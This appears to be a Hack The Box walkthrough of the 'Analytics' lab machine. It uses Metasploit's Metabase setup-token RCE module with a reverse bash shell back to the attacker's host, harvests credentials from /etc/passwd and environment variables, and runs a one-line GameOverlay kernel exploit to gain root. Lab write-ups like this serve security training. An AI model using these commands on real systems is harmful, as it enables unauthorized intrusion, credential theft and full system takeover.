


# Analytics
## Enumeration
There are two open ports. 22 (ssh) and 80 (http):
```
┌──(kali㉿kali)-[~]
└─$ nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 08:00 EDT
Nmap scan report for 10.10.11.233
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.82 seconds
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/hackthebox/analytics]
└─$ nmap -sC -sV -oN nmap/general $IP 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 08:01 EDT
Nmap scan report for 10.10.11.233
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.67 seconds
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/hackthebox/analytics]
└─$ nmap -p- -oN nmap/all_ports $IP  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 08:03 EDT
Nmap scan report for 10.10.11.233
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 27.24 seconds
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/hackthebox/analytics]
└─$
```

### HTTP
Connecting to the server with our browser shows the following website:


Navigating through the site brings us to a login front for a Metabase application:


The application is located under the subdomain `data.analytical.htb`. If we inspect the http traffic of the login site with Burp, we find two api calls:


The endpoints are:
* `/api/user/current`
* `/api/session/properties`

### API Enumeration
The user endpoint gives use an `401 Unauthorized` error:
```
┌──(kali㉿kali)-[~]
└─$ curl -v http://data.analytical.htb/api/user                          
* processing: http://data.analytical.htb/api/user
*   Trying 10.10.11.233:80...
* Connected to data.analytical.htb (10.10.11.233) port 80
> GET /api/user HTTP/1.1
> Host: data.analytical.htb
> User-Agent: curl/8.2.1
> Accept: */*
> 
< HTTP/1.1 401 Unauthorized
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 10 Oct 2023 12:33:06 GMT
< Content-Type: text/plain
< Content-Length: 15
< Connection: keep-alive
< X-Frame-Options: DENY
< X-XSS-Protection: 1; mode=block
< Last-Modified: Tue, 10 Oct 2023 12:33:06 GMT
< Strict-Transport-Security: max-age=31536000
< Set-Cookie: metabase.DEVICE=f4c61926-2e81-4207-be12-32a52be4bad1;HttpOnly;Path=/;Expires=Sat, 10 Oct 2043 12:33:06 GMT;SameSite=Lax
< X-Permitted-Cross-Domain-Policies: none
< Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
< X-Content-Type-Options: nosniff
< Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval' https://maps.google.com https://accounts.google.com    'sha256-K2AkR/jTLsGV8PyzWha7/ey1iaD9c5jWRYwa++ZlMZc=' 'sha256-ib2/2v5zC6gGM6Ety7iYgBUvpy/caRX9xV/pzzV7hf0=' 'sha256-isH538cVBUY8IMlGYGbWtBwr+cGqkc4mN6nLcA7lUjE='; child-src 'self' https://accounts.google.com; style-src 'self' 'unsafe-inline' https://accounts.google.com; font-src *; img-src * 'self' data:; connect-src 'self' https://accounts.google.com metabase.us10.list-manage.com   ; manifest-src 'self';  frame-ancestors 'none';
< Expires: Tue, 03 Jul 2001 06:00:00 GMT
< 
* Connection #0 to host data.analytical.htb left intact
Unauthenticated                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$
```

Meanwhile, the endpoint `/api/session/properties` shows plenty of information as we can see in the response in Burp.

## API exploitation
If we research for vulnerabilities of the application Metabase, we will find pretty soon the following article: https://www.metabase.com/blog/security-incident-summary

A critical vulnerability, that leads into a RCE on the system. The vulnerability is from July 2023 and very recent. Therefore, it is very that our application is affected.

The endpoints show current version of the app:
```
┌──(kali㉿kali)-[~]
└─$ curl -s http://data.analytical.htb/api/session/properties | jq | grep -i -A 5 version
  "version-info-last-checked": null,
  "application-logo-url": "app/assets/img/logo.svg",
  "application-favicon-url": "app/assets/img/favicon.ico",
  "show-metabot": true,
  "enable-whitelabeling?": false,
  "map-tile-server-url": "https://{s}.tile.openstreetmap.org/{z}/{x}/{y}.png",
--
  "version": {
    "date": "2023-06-29",
    "tag": "v0.46.6",
    "branch": "release-x.46.x",
    "hash": "1bb88f5"
  },
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```
Version `v0.46.6` is indeed affected.

From the article, the attacking vector takes the following steps:
1. Call `/api/session/properties` to get the setup token.
2. Use the setup token to call `/api/setup/validate`.
3. Take advantage of the missing checks to get H2 to execute commands on the host operating system.
4. Open a reverse shell, create admin accounts, etc.

Searching for the token in the response of the endpoint, show the named token:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/analytics]
└─$ curl -s http://data.analytical.htb/api/session/properties | jq | grep -i token
  "token-features": {
  "setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/hackthebox/analytics]
└─$
```

With that setup token we can send a POST request to the endpoint `/api/setup/validate`. This endpoint tries to connect to a database connection string. With the right payload and following the steps 3. and 4., we can get shell on the system.

### Exploit
Metasploit has an exploit for this vulnerability, that can be found here: https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/metabase_setup_token_rce.rb

If we run this exploit we get our reverse shell:
```
msf6 > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > show options

Module options (exploit/linux/http/metabase_setup_token_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      3000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the Metabase Application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOSTS data.analytical.htb
RHOSTS => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST 10.10.16.51
RPORT => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > show options

Module options (exploit/linux/http/metabase_setup_token_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     data.analytical.htb  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                   yes       The target port (TCP)
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                    yes       The URI of the Metabase Application
   VHOST                           no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.51      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.16.51:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.16.51:4444 -> 10.10.11.233:34072) at 2023-10-10 09:15:58 -0400

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)

ls -al 
total 92
drwxr-xr-x    1 root     root          4096 Oct 10 13:09 .
drwxr-xr-x    1 root     root          4096 Oct 10 13:09 ..
-rwxr-xr-x    1 root     root             0 Oct 10 13:09 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29 20:40 app
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 bin
drwxr-xr-x    5 root     root           340 Oct 10 13:09 dev
drwxr-xr-x    1 root     root          4096 Oct 10 13:09 etc
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 home
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 lib
drwxr-xr-x    5 root     root          4096 Jun 14 15:03 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 mnt
drwxr-xr-x    1 root     root          4096 Jun 15 05:12 opt
drwxrwxrwx    1 root     root          4096 Aug  7 11:10 plugins
dr-xr-xr-x  255 root     root             0 Oct 10 13:09 proc
drwx------    1 root     root          4096 Aug  3 12:26 root
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 run
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 sbin
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 srv
dr-xr-xr-x   13 root     root             0 Oct 10 13:09 sys
drwxrwxrwt    1 root     root          4096 Aug  3 12:16 tmp
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 usr
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 var
```

### Docker enumeration
From the directory listing, we can assume that we are located inside a docker container:
```
ls -al 
total 92
drwxr-xr-x    1 root     root          4096 Oct 10 13:09 .
drwxr-xr-x    1 root     root          4096 Oct 10 13:09 ..
-rwxr-xr-x    1 root     root             0 Oct 10 13:09 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29 20:40 app
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 bin
drwxr-xr-x    5 root     root           340 Oct 10 13:09 dev
drwxr-xr-x    1 root     root          4096 Oct 10 13:09 etc
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 home
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 lib
drwxr-xr-x    5 root     root          4096 Jun 14 15:03 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 mnt
drwxr-xr-x    1 root     root          4096 Jun 15 05:12 opt
drwxrwxrwx    1 root     root          4096 Aug  7 11:10 plugins
dr-xr-xr-x  255 root     root             0 Oct 10 13:09 proc
drwx------    1 root     root          4096 Aug  3 12:26 root
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 run
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 sbin
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 srv
dr-xr-xr-x   13 root     root             0 Oct 10 13:09 sys
drwxrwxrwt    1 root     root          4096 Aug  3 12:16 tmp
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 usr
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 var
```

We are logged in as user `metabase` and have no flag or any other interesting file inside our home directory:
```
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)

ls -al /home
total 12
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 .
drwxr-xr-x    1 root     root          4096 Oct 10 13:09 ..
drwxr-sr-x    1 metabase metabase      4096 Aug 25 15:17 metabase
ls -al /home/metabase
total 8
drwxr-sr-x    1 metabase metabase      4096 Aug 25 15:17 .
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 ..
lrwxrwxrwx    1 metabase metabase         9 Aug  3 12:22 .ash_history -> /dev/null
lrwxrwxrwx    1 metabase metabase         9 Aug 25 15:17 .bash_history -> /dev/null
```

Also, there are no other users on the system:
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
```

The root directory shows some files of the application and the docker configuration. There we see some environment variables. So let's take a look at the set variables for our user:
```
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=8c5d0a7801e0
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=6
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/app/certs
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```
The meant variables (`MB_DB_PASS`, `MB_JETTY_HOST`, etc.) are empty, but we find other interesting ones:
```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

That seems like login credentials. So let's try them out on the main system:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/analytics]
└─$ ssh metalytics@10.10.11.233
The authenticity of host '10.10.11.233 (10.10.11.233)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:126: [hashed name]
    ~/.ssh/known_hosts:127: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.233' (ED25519) to the list of known hosts.
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 10 01:10:02 PM UTC 2023

  System load:              0.271484375
  Usage of /:               92.8% of 7.78GB
  Memory usage:             8%
  Swap usage:               0%
  Processes:                171
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.233
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:f857

  => / is using 92.8% of 7.78GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Oct 10 13:43:19 2023 from 10.10.16.123
metalytics@analytics:~$ 
```

And we are logged in!

## System enumeration
### User flag
In the home directory we can find the user flag:
```
metalytics@analytics:~$ ls -al 
total 1304
drwxr-x--- 10 metalytics metalytics    4096 Oct 10 13:46 .
drwxr-xr-x  3 root       root          4096 Aug  8 11:37 ..
lrwxrwxrwx  1 root       root             9 Aug  3 16:23 .bash_history -> /dev/null
-rw-r--r--  1 metalytics metalytics     220 Aug  3 08:53 .bash_logout
-rw-r--r--  1 metalytics metalytics    3771 Aug  3 08:53 .bashrc
drwx------  2 metalytics metalytics    4096 Aug  8 11:37 .cache
drwx------  3 metalytics metalytics    4096 Oct 10 13:37 .gnupg
drwxrwxr-x  3 metalytics metalytics    4096 Aug  8 11:37 .local
-rw-r--r--  1 metalytics metalytics     807 Aug  3 08:53 .profile
-rw-r-----  1 root       metalytics      33 Oct 10 13:08 user.txt
-rw-r--r--  1 metalytics metalytics      39 Aug  8 11:30 .vimrc
metalytics@analytics:~$ ls -al /home
total 12
drwxr-xr-x  3 root       root       4096 Aug  8 11:37 .
drwxr-xr-x 18 root       root       4096 Aug  8 11:37 ..
drwxr-x--- 10 metalytics metalytics 4096 Oct 10 13:46 metalytics
metalytics@analytics:~$ cat user.txt 
6d731625b8e7268f94267108d9c0325d
metalytics@analytics:~$ 
```

### Further enumeration
On the system we don't find any useful vectors to escalate our privileges. Going deeper with LinPEAS is also not successful. So let's take a deeper look at the Linux Kernel.

### Kernel exploit
The kernel was compiled at 28th Jun and we have an Ubuntu 22.04 LTS:
```
$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
$ 
```

With this information we can search in https://ubuntu.com/security/notices for relevant and unpatched exploits.

We can find two vulnerabilities, that describe a privilege escalation:
* https://ubuntu.com/security/CVE-2023-4911
* https://ubuntu.com/security/CVE-2023-32629

#### CVE-2023-4911
Checking the first one, shows that the `glibc` version on the system is affected:
```
metalytics@analytics:~$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.3) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
metalytics@analytics:~$ 
```

But unfortunately we have no compiling tools on the system installed. So we have to precompile the exploit and copy it to system.

A PoC can be found here: https://github.com/RickdeJager/CVE-2023-4911

#### CVE-2023-32629
Let's check if the other vulnerability gets us fast to root.

For this CVE we find a few PoCs. For example here https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#CVE-2023-32629-CVE-2023-2640-GameOverlay-Ubuntu-Kernel-Exploit-LPE-0-day

Using this PoC with `/bin/bash` escalate our rights:
```
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:~# 
```

### Root flag
And finally we can get the root flag:
```
root@analytics:~# 
root@analytics:~# cd /root/
root@analytics:/root# ls -al 
total 48
drwx------  6 root root 4096 Aug 25 15:14 .
drwxr-xr-x 18 root root 4096 Aug  8 11:37 ..
lrwxrwxrwx  1 root root    9 Apr 27 16:10 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Apr 27 16:09 .cache
drwxr-xr-x  3 root root 4096 Apr 27 16:35 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Oct 10 19:31 root.txt
drwxr-xr-x  2 root root 4096 Aug 25 15:14 .scripts
-rw-r--r--  1 root root   66 Aug 25 15:14 .selected_editor
drwx------  2 root root 4096 Apr 27 16:07 .ssh
-rw-r--r--  1 root root   39 Aug  8 11:30 .vimrc
-rw-r--r--  1 root root  165 Aug  8 11:53 .wget-hsts
root@analytics:/root# cat root.txt 
29ea7a42def25d21c276599d26e35bd7
root@analytics:/root# 
```